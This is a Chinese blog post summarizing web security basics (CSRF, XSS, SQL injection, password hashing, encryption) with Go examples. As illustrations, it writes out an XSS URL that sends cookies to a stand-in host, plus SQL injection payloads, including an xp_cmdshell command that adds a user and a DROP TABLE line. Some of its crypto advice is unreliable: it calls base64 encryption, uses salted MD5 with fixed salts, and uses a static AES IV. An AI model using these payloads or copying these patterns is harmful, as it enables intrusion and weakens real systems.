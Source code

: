 ```yaml
---
layout: post
title: 在Web application 中基本的安全防范小结
date:   2017-05-22 18:00:06
categories: Web
image: /assets/images/post.jpg
---
```


##### CSRF攻击

CSRF（Cross-site request forgery），中文名称：跨站请求伪造，也被称为：one click attack/session riding，缩写为：CSRF/XSRF。

> 那么CSRF到底能够干嘛呢？你可以这样简单的理解：攻击者可以盗用你的登陆信息，以你的身份模拟发送各种请求。攻击者只要借助少许的社会工程学的诡计，例如通过QQ等聊天软件发送的链接(有些还伪装成短域名，用户无法分辨)，攻击者就能迫使Web应用的用户去执行攻击者预设的操作。例如，当用户登录网络银行去查看其存款余额，在他没有退出时，就点击了一个QQ好友发来的链接，那么该用户银行帐户中的资金就有可能被转移到攻击者指定的帐户中。

CSRF攻击示意图：

![CSRF攻击示意图]( /assets/images/web-safe/csrf.png "Optional title")

CSRF攻击步骤：

1. 登入正常的网站A,并在本地保存了Cookie
2. 在不退出A的情况下,访问了危险网站B（比如点击了小广告）

> CSRF攻击主要是因为Web的隐式身份验证机制，Web的身份验证机制虽然可以保证一个请求是来自于某个用户的浏览器，但却无法保证该请求是用户批准发送的。

预防：

>1、正确使用GET,POST和Cookie；

>2、在非GET请求中增加伪随机数, 比如随机token；

```go
生成随机数token

h := md5.New()
io.WriteString(h, strconv.FormatInt(crutime, 10))
io.WriteString(h, "ganraomaxxxxxxxxx")
token := fmt.Sprintf("%x", h.Sum(nil))
t, _ := template.ParseFiles("login.gtpl")
t.Execute(w, token)

输出token

<input type="hidden" name="token" value="{{.}}">

验证token

r.ParseForm()
	token := r.Form.Get("token")
	if token != "" {
		//验证token的合法性
	} else {
		//不存在token报错
	}
```

##### 输入验证

过滤用户输入数据，验证数据的合法性，是一个重要的过程。能够在一定程度上，避免恶意数据在程序中被误用。

三个步骤：

>1、识别数据，搞清楚需要过滤的数据来自于哪里

>2、过滤数据，弄明白我们需要什么样的数据

>3、区分已过滤及被污染数据，如果存在攻击数据那么保证过滤之后可以让我们使用更安全的数据

输入数据来自哪里？

1. 表单提交时的参数

2. 接口传递的json参数

3. 参数在url中

4. 参数在http 的Header中

进行验证。验证数据的有效性，可以简单的验证，也可以根据自己的规则而验证。

在`<Grape>`框架中，在controller　层做了验证的DSL语法的验证。`<Rails>`的框架，还可以在model层做验证。

这里建议，如果可以在controller 做验证，最好先做，再继续在model层做相关验证。通过两重的验证，基本可以保证数据的有效性。

##### XXS攻击

> 动态站点会受到一种名为“跨站脚本攻击”（Cross Site Scripting, 安全专家们通常将其缩写成 XSS）的威胁，而静态站点则完全不受其影响。
XSS是一种常见的web安全漏洞，它允许攻击者将恶意代码植入到提供给其它用户使用的页面中。不同于大多数攻击(一般只涉及攻击者和受害者)，XSS涉及到三方，即攻击者、客户端与Web应用。XSS的攻击目标是为了盗取存储在客户端的cookie或者其他网站用于识别客户端身份的敏感信息。一旦获取到合法用户的信息后，攻击者甚至可以假冒合法用户与网站进行交互。

```
XSS目前主要的手段和目的如下：

盗用cookie，获取敏感信息。
利用植入Flash，通过crossdomain权限设置进一步获取更高权限；或者利用Java等得到类似的操作。
利用iframe、frame、XMLHttpRequest或上述Flash等方式，以（被攻击者）用户的身份执行一些管理动作，或执行一些如:发微博、加好友、发私信等常规操作，前段时间新浪微博就遭遇过一次XSS。
利用可被攻击的域受到其他域信任的特点，以受信任来源的身份请求一些平时不允许的操作，如进行不当的投票活动。
在访问量极大的一些页面上的XSS可以攻击一些小型网站，实现DDoS攻击的效果
```

XSS的原理

> Web应用未对用户提交请求的数据做充分的检查过滤，允许用户在提交的数据中掺入HTML代码(最主要的是“>”、“<”)，并将未经转义的恶意代码输出到第三方用户的浏览器解释执行，是导致XSS漏洞的产生原因

例子(来自　https://github.com/astaxie/build-web-application-with-golang/blob/master/zh/09.3.md):

接下来以反射性XSS举例说明XSS的过程：现在有一个网站，根据参数输出用户的名称，例如访问url：http://127.0.0.1/?name=astaxie，就会在浏览器输出如下信息：

```
hello astaxie

如果我们传递这样的url：http://127.0.0.1/?name=&#60;script&#62;alert(&#39;astaxie,xss&#39;)&#60;/script&#62;,这时你就会发现浏览器跳出一个弹出框，这说明站点已经存在了XSS漏洞。那么恶意用户是如何盗取Cookie的呢？与上类似，如下这样的url：http://127.0.0.1/?name=&#60;script&#62;document.location.href='http://www.xxx.com/cookie?'+document.cookie&#60;/script&#62;，这样就可以把当前的cookie发送到指定的站点：www.xxx.com。你也许会说，这样的URL一看就有问题，怎么会有人点击？，是的，这类的URL会让人怀疑，但如果使用短网址服务将之缩短，你还看得出来么？攻击者将缩短过后的url通过某些途径传播开来，不明真相的用户一旦点击了这样的url，相应cookie数据就会被发送事先设定好的站点，这样子就盗得了用户的cookie信息，然后就可以利用Websleuth之类的工具来检查是否能盗取那个用户的账户。

```

如何预防XSS

不要相信用户的任何输入的内容，并过滤掉输入中的所有特殊字符比如<script> <a>这样的标签。如果不过滤或清洁这样的标签，当浏览器
在渲染这样的字符串数据的时候，就会调用<script>中的代码，但是，这个代码并不是我们希望执行的。可能你的网站就被莫名奇妙的alert弹框，字体颜色被改。
或其他更危险的javascript的操作

过滤特殊字符

避免XSS的方法之一主要是将用户所提供的内容进行过滤，Go语言提供了HTML的过滤函数：

text/template包下面的HTMLEscapeString、JSEscapeString等函数

在Rails 开发中，如果要渲染有嫌疑的html字符串，使用`<sanitize>`方法继续过滤。　对返回的数据进行， sanitize @post.content，　或对 可以自定义的url 进行　sanitize

使用HTTP头指定类型

```
`w.Header().Set("Content-Type","text/javascript")`

这样就可以让浏览器解析javascript代码，而不会是html输出。
```

HttpOnly 设为true, 防止通过javascript脚本的方式获取得到Cookie

XSS漏洞是相当有危害的，在开发Web应用的时候，一定要记住过滤数据，特别是在输出到客户端之前，这是现在行之有效的防止XSS的手段。


##### SQL注入

> SQL注入攻击（SQL Injection），简称注入攻击，是Web开发中最常见的一种安全漏洞。可以用它来从数据库获取敏感信息，或者利用数据库的特性执行添加用户，导出文件等一系列恶意操作，甚至有可能获取数据库乃至系统用户最高权限。
通造成SQL注入的原因是因为程序没有有效过滤用户的输入，使攻击者成功的向服务器提交恶意的SQL查询代码，程序在接收后错误的将攻击者的输入作为查询语句的一部分执行，导致原始的查询逻辑被改变，额外的执行了攻击者精心构造的恶意代码。

例子来自于：　https://github.com/astaxie/build-web-application-with-golang/blob/master/zh/09.4.md

```
<form action="/login" method="POST">
	<p>Username: <input type="text" name="username" /></p>
	<p>Password: <input type="password" name="password" /></p>
	<p><input type="submit" value="登陆" /></p>
</form>

username:=r.Form.Get("username")
password:=r.Form.Get("password")
sql:="SELECT * FROM user WHERE username='"+username+"' AND password='"+password+"'"

如果用户的输入的用户名如下，密码任意
  myuser' or 'foo' = 'foo' --
那么我们的SQL变成了如下所示：
  SELECT * FROM user WHERE username='myuser' or 'foo' = 'foo' --'' AND password='xxx'

在SQL里面--是注释标记，所以查询语句会在此中断。这就让攻击者在不知道任何合法用户名和密码的情况下成功登录了

对于MSSQL还有更加危险的一种SQL注入，就是控制系统，下面这个可怕的例子将演示如何在某些版本的MSSQL数据库上执行系统命令。
  sql:="SELECT * FROM products WHERE name LIKE '%"+prod+"%'"
	Db.Exec(sql)
如果攻击提交a%' exec master..xp_cmdshell 'net user test testpass /ADD' --作为变量 prod的值，那么sql将会变成
  sql:="SELECT * FROM products WHERE name LIKE '%a%' exec master..xp_cmdshell 'net user test testpass /ADD'--%'"
MSSQL服务器会执行这条SQL语句，包括它后面那个用于向系统添加新用户的命令。如果这个程序是以sa运行而 MSSQLSERVER服务又有足够的权限的话，攻击者就可以获得一个系统帐号来访问主机了。
```

一个SQL注入的例子：
```
SELECT * FROM users WHERE email='''; DROP TABLE users;''';  
```

如何预防SQL注入

1. 控制数据库的操作权限

2. 检查输入的数据是否具有所期望的数据格式，严格限制变量的类型，例如使用regexp包进行一些匹配处理，或者使用strconv包对字符串转化成其他基本类型的数据进行判断。

3. 对进入数据库的特殊字符（'"\尖括号&*;等）进行转义处理，或编码转换。Go 的text/template包里面的HTMLEscapeString函数可以对字符串进行转义处理。

4. 不要直接拼接SQL语句, 对查询语句输入的前端提交传递过来的参数进行清洁过滤

##### 存储密码

简单的方案

在数据库中，使用单向哈希后存储，单向哈希算法有一个特征：无法通过哈希后的摘要(digest)恢复原始数据，这也是“单向”二字的来源。常用的单向哈希算法包括SHA-256, SHA-1, MD5等。

```go
import "crypto/sha256"

h := sha256.New()
io.WriteString(h, "His money is twice tainted: 'taint yours and 'taint mine.")
fmt.Printf("% x", h.Sum(nil))

import "crypto/sha1"
h := sha1.New()
io.WriteString(h, "His money is twice tainted: 'taint yours and 'taint mine.")
fmt.Printf("% x", h.Sum(nil))

import "crypto/md5"
h := md5.New()
io.WriteString(h, "需要加密的密码")
fmt.Printf("%x", h.Sum(nil))
```

+ 同一个密码进行单向哈希，得到的总是唯一确定的摘要。
+ 计算速度快。随着技术进步，一秒钟能够完成数十亿次单向哈希计算。

结合上面两个特点，考虑到多数人所使用的密码为常见的组合，攻击者可以将所有密码的常见组合进行单向哈希，得到一个摘要组合, 然后与数据库中的摘要进行比对即可获得对应的密码。这个摘要组合也被称为rainbow table。

因此通过单向加密之后存储的数据，和明文存储没有多大区别。因此，一旦网站的数据库泄露，使用暴力破解碰撞匹配，真实的密码就会被得到。

进阶的方案

自己设计一个哈希算法。一个好的哈希算法是很难设计的——既要避免碰撞，又不能有明显的规律，做到这两点要比想象中的要困难很多。因此实际应用中更多的是利用已有的哈希算法`<进行多次哈希>`，并且给密码进行`<加盐salt>`处理。

通常的做法是，先将用户输入的密码进行一次MD5（或其它哈希算法）加密；将得到的 MD5 值前后加上一些只有管理员自己知道的随机串，再进行一次MD5加密。这个随机串中可以包括某些固定的串，也可以包括用户名（用来保证每个用户加密使用的密钥都不一样）

```go

import "crypto/md5"
//假设用户名abc，密码123456
h := md5.New()
io.WriteString(h, "需要加密的密码")

//pwmd5等于e10adc3949ba59abbe56e057f20f883e
pwmd5 :=fmt.Sprintf("%x", h.Sum(nil))

//指定两个 salt： salt1 = @#$%   salt2 = ^&*()
salt1 := "@#$%"
salt2 := "^&*()"

//salt1+用户名+salt2+MD5拼接
io.WriteString(h, salt1)
io.WriteString(h, "abc")
io.WriteString(h, salt2)
io.WriteString(h, pwmd5)

last :=fmt.Sprintf("%x", h.Sum(nil))
```

##### 专家方案

使用`<scrypt>` 方案.这类方案有一个特点，算法中都有个因子，用于指明计算密码摘要所需要的资源和时间，也就是计算强度。计算强度越大，攻击者建立rainbow table越困难，以至于不可继续。scrypt是由著名的FreeBSD黑客Colin Percival为他的备份服务Tarsnap开发的。

```go
dk := scrypt.Key([]byte("some password"), []byte(salt), 16384, 8, 1, 32)
```

##### 加密和解密数据

base64加密

base64加密方法是一种简单的加密方法，例子:

```go
package main

import (
	"encoding/base64"
	"fmt"
)
func base64Encode(src []byte) []byte{
  return []byte(base64.StdEncoding.EncodeToString(src))
}
func base64Decode(src []byte) ([]byte, error) {
	return base64.StdEncoding.DecodeString(string(src))
}

func main() {
	// encode
	hello := "你好，世界！ hello world"
	debyte := base64Encode([]byte(hello))
	fmt.Println(debyte)
	// decode
	enbyte, err := base64Decode(debyte)
	if err != nil {
		fmt.Println(err.Error())
	}

	if hello != string(enbyte) {
		fmt.Println("hello is not equal to enbyte")
	}

	fmt.Println(string(enbyte))
}

```

#####　对称加密

Go语言的crypto里面支持对称加密的高级加解密包有：

crypto/aes包：AES(Advanced Encryption Standard)，又称Rijndael加密法，是美国联邦政府采用的一种区块加密标准。

crypto/des包：DES(Data Encryption Standard)，是一种对称加密标准，是目前使用最广泛的密钥系统，特别是在保护金融数据的安全中。曾是美国联邦政府的加密标准，但现已被AES所替代。

```go
package main

	import (
		"crypto/aes"
		"crypto/cipher"
		"fmt"
		"os"
	)

	var commonIV = []byte{0x00, 0x01, 0x02, 0x03, 0x04, 0x05, 0x06, 0x07, 0x08, 0x09, 0x0a, 0x0b, 0x0c, 0x0d, 0x0e, 0x0f}

	func main() {
		//需要去加密的字符串
		plaintext := []byte("My name is Astaxie")
		//如果传入加密串的话，plaint就是传入的字符串
		if len(os.Args) > 1 {
			plaintext = []byte(os.Args[1])
		}

		//aes的加密字符串
		key_text := "astaxie12798akljzmknm.ahkjkljl;k"
		if len(os.Args) > 2 {
			key_text = os.Args[2]
		}

		fmt.Println(len(key_text))

		// 创建加密算法aes
		c, err := aes.NewCipher([]byte(key_text))
		if err != nil {
			fmt.Printf("Error: NewCipher(%d bytes) = %s", len(key_text), err)
			os.Exit(-1)
		}

		//加密字符串
		cfb := cipher.NewCFBEncrypter(c, commonIV)
		ciphertext := make([]byte, len(plaintext))
		cfb.XORKeyStream(ciphertext, plaintext)
		fmt.Printf("%s=>%x\n", plaintext, ciphertext)

		// 解密字符串
		cfbdec := cipher.NewCFBDecrypter(c, commonIV)
		plaintextCopy := make([]byte, len(plaintext))
		cfbdec.XORKeyStream(plaintextCopy, ciphertext)
		fmt.Printf("%x=>%s\n", ciphertext, plaintextCopy)
	}
```

上面通过调用函数aes.NewCipher(参数key必须是16、24或者32位的[]byte，分别对应AES-128, AES-192或AES-256算法),返回了一个cipher.Block接口，这个接口实现了三个功能：

```go
type Block interface {
	// BlockSize returns the cipher's block size.
	BlockSize() int

	// Encrypt encrypts the first block in src into dst.
	// Dst and src may point at the same memory.
	Encrypt(dst, src []byte)

	// Decrypt decrypts the first block in src into dst.
	// Dst and src may point at the same memory.
	Decrypt(dst, src []byte)
}
```


在开发Web应用的时候可以根据需求采用不同的方式进行加解密，一般的应用可以采用base64算法，更加高级的话可以采用aes或者des算法。


参考连接：　https://github.com/astaxie/build-web-application-with-golang　
